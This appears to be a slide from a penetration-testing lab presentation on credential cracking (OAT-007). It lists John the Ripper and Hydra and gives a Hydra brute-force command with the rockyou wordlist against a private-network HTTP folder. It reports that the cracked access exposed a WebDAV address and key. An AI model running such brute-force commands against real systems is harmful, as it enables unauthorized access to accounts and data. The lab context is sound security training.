

# Exploitation: OAT-007: Credential Cracking
01

02

03

Tools & Processes
Tools Used:
John the Ripper password cracker
Hydra

Achievements
With does tools we were able to access the access the secret folder and collect the address and access key for the webdav folder in the server

Hydra
hydra -l <user> -P /usr/share/wordlists/rockyou.txt -s <port> -f -vV 192.168.1.105 http-get /company_folders/secret_folder/
John the Ripper
john <your_file>